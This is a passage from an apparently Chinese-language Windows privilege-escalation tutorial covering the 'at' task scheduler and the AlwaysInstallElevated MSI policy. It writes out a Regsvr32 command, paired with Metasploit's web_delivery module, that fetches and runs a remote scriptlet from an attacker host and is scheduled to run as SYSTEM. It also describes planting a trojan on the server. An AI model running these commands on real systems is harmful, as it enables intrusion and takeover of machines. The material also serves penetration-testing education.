 使用“at 10:56PM /interactive calc.exe”命令创建一个定时任务计划。

参考文档：https://support.microsoft.com/zh-cn/help/313565/how-to-use-the-at-command-to-schedule-tasks

![](https://images.payloads.online/2c79c872-4f5f-11ec-9243-00d861bf4abb.png)

### 提权过程

可以采用Regsvr32一条命令上线，使用MSF的“multi/script/web_delivery”模块，我的配置如下：

![](https://images.payloads.online/2cba810a-4f5f-11ec-a375-00d861bf4abb.png)
```sh
regsvr32 /s /n /u /i:http://192.168.117.132:8080/EixyqoXL7Q8JccV.sct scrobj.dll
```
就是需要执行的命令，需要将它加入定时任务计划中去。

命令：

```sh
at 11:16PM \interactive regsvr32 /s /n /u /i:http://192.168.117.132:8080/EixyqoXL7Q8JccV.sct scrobj.dll
```

![](https://images.payloads.online/2d010148-4f5f-11ec-a79d-00d861bf4abb.png)
但是我发现regsvr32会报错。

只能将木马落地到服务器（Win 2003 SP1）上了，还是采用之前生成的木马。

![](https://images.payloads.online/2d429ffe-4f5f-11ec-9d8f-00d861bf4abb.png)
![](https://images.payloads.online/2d8178fa-4f5f-11ec-98dc-00d861bf4abb.png)
此时我们得到的会话已经是“SYSTEM”权限。

## 0x04 MSI安装策略提权

自从Windows 2000起，在安装MSI安装包的时候，会以SYSTEM权限运行。前提是组策略启用了“Allow install with elevated privileges”。

该项可以在组策略编辑器（`gpedit.msc`）中看到：

指导 Windows 安装程序在系统上安装任何程序时使用系统权限。

该设置会将提升的特权扩展到所有程序。这些特权通常是为已分配给用户(桌面上提供的)或计算机(自动安装的)、或者显示在“控制面板”的“添加或删除程序”中的程序而保留的。该设置允许用户安装需要访问用户可能无查看或更改权限目录(包括受高度限制的计算机上的目录)的程序。 

如果禁用或未配置此设置，当安装的程序不是管理员分发或提供的程序时，系统将会应用当前用户的权限。 

注意:“计算机配置”和“用户配置”文件夹中均包括此设置。若要使该设置生效，必须在两个文件夹中都启用它。

注意:熟练的用户可以利用该设置授予的权限来更改其特权并获得对受限文件和文件夹的永久访问权。请注意，这个设置的“用户配置”版本不一定安全。

![](https://images.payloads.online/2dc4dece-4f5f-11ec-9e11-00d861bf4abb.png)
默认情况下是`“Not Configured”`，如果是`“Enabled”`，可以直接利用于特权提升。

这个配置项对应的注册表路径为：

* HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\windows\Installer
* HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
